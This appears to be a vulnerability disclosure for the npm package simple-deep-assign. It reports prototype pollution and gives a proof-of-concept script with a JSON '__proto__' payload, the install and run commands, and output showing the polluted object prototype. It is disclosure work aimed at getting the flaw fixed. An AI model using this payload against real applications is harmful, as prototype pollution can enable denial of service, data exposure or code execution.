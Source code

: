 # Description

`simple-deep-assign` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.mjs
import deepAssign from 'simple-deep-assign';

console.log(`Before: ${{}.polluted}`)
deepAssign({}, JSON.parse('{"__proto__": {"polluted": "Prototype Polluted"}}'));
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i simple-deep-assign # install vulnerable package
node poc.mjs # run the PoC
```
3. Check the output:
```
Before: undefined
After: Prototype Polluted
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

